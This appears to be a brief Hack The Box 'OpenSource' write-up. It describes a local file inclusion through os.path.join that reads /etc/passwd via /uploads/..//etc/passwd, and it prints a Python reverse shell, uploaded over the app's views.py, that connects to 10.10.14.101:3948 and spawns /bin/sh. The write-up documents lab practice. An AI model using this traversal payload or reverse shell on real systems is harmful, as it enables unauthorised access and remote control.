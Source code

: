 # htb-opensource

# User Access
### LFI

`os.path.join` function has an input of path, if this input equals to an absolute path, the command will throw other inputs and only reads the absolute path.

so getting the following URL gives us `/etc/passwd`

~~~
/uploads/..//etc/passwd
~~~


### Reverse shell

uploaded a `reverseshell.py` into /app/app/views.py

~~~
import os
from os import dup2
from subprocess import run

import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",3948)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/sh","-i"])
~~~
